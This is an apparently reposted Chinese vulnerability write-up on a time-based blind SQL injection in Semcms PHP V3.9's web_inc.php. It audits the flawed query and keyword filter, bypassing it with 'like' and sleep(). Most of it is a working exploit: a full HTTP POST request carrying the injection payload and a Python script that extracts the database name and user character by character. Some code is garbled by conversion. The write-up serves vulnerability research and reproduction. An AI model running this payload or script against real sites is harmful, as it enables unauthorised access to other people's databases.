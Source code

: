 # Semcms PHP(多语)版 V3.9 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3124](https://www.zhihuifly.com/t/topic/3124)

# Semcms PHP(多语)版 V3.9 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms PHP(多语)版 V3.9

## 三、复现过程

### 漏洞详情

漏洞文件为Include下的web_inc.php文件

包

```
POST /Include/web_inc.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Content-Length: 64
Content-Type: application/x-www-form-urlencoded `languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);` 
```

基于时间的注入

### 代码审计

查看web_inc.php的关键代码

```
if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

if(!empty($Language)){

```
 //网站SEO设定

  $query=$db_conn-&gt;query("select * from sc_tagandseo where languageID=$Language");
  $row=mysqli_fetch_array($query);
  $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
  $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
  $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 
``` `…` 
```

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

```
function test_input($data) { 
      $data = str_replace("%", "percent", $data);
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;

}

function inject_check_sql($sql_str) {

```
 return preg_match('/select|insert|=|%|&lt;|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
```

}

function verify_str($str) {

if(inject_check_sql($str)) {

```
 exit('Sorry,You do this is wrong! (.-.)');
} 

return $str; 
``` `}` 
```

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

```
languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1); 
```

附上脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory

import requests

def getDatabase(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,9):
    for j in range(97,122):
        data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j)
            print(s)
            break
print('database=' + s) 
```

def getUser(url):

s = ‘’

r = requests.session()

head = {‘Content-Type’:‘application/x-www-form-urlencoded’}

```
for i in range(1,21):
    for j in range(64,90):
        data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

        result = r.post(url, data, headers=head)

        if(result.elapsed.total_seconds() &gt; 5):
            s = s + chr(j).lower()
            print(s)
            break
print('user=' + s) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/Include/web_inc.php](http://127.0.0.1/Include/web_inc.php)’

```
s = getDatabase(url)
u = getUser(url) 
``` 
```

运行截图

![image](img/dc8682fbdb9886e3caccc21cd76d7f66.png)

![image](img/48fd42f45c1df272f00e48691c108a5a.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

## 参考链接

> https://xz.aliyun.com/t/7122